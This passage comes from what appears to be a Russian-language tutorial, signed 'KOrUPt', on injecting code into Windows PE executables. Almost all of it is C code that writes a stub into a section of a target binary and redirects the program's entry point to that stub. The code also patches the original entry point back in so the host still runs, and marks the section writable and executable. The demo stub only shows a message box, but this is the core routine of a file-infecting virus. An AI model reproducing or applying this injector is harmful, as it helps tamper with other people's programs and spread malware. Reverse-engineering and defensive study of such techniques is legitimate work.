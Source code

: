 ```c
            charcounter++;
            if(charcounter == 4 && callOffset == 0)
                callOffset = i - 3;
            else if(charcounter == 4 && oepOffset == 0)
                oepOffset = i - 3;
        }else charcounter = 0;
    }
     
    // проверяем их на валидность
    if(oepOffset == 0 || callOffset == 0){
        free(stub);
        goto cleanup;
    }
     
    hUser32 = LoadLibrary("User32.dll");
    if(!hUser32){
        free(stub);
        printf("[-] Could not load User32.dll");
        goto cleanup;
    }
     
    // подменяем заглушки реальными значениями
    *(u_long *)(stub + oepOffset) = (oepRva + pNtHeaders->OptionalHeader.ImageBase);
    *(u_long *)(stub + callOffset) = ((DWORD)GetProcAddress(hUser32, "MessageBoxA"));
    FreeLibrary(hUser32);
     
    // записываем код
    memcpy((PBYTE)hMap + writeOffset, stub, stubLength);
     
    // устанавливаем точку входа
    pNtHeaders->OptionalHeader.AddressOfEntryPoint = 
        FileToVA(writeOffset, pNtHeaders) - pNtHeaders->OptionalHeader.ImageBase;
     
    // устанавливаем размер секции
    pSection->Misc.VirtualSize += stubLength;
    pSection->Characteristics |= IMAGE_SCN_MEM_WRITE | IMAGE_SCN_MEM_READ | IMAGE_SCN_MEM_EXECUTE;
     
    // очищаем
    printf("[+] Stub written!!\n[*] Cleaning up\n");
    free(stub);
     
    cleanup:
    FlushViewOfFile(hMap, 0);
    UnmapViewOfFile(hMap);
     
    SetFilePointer(hFile, fsize, NULL, FILE_BEGIN);
    SetEndOfFile(hFile);
    CloseHandle(hFileMap);
    CloseHandle(hFile);
    return 0;
}
```

Код выше объясняет всю суть способа... Надеюсь, вам понравилось читать. Я жду ваших комментариев и рецензий данной темы.

KOrUPt. 
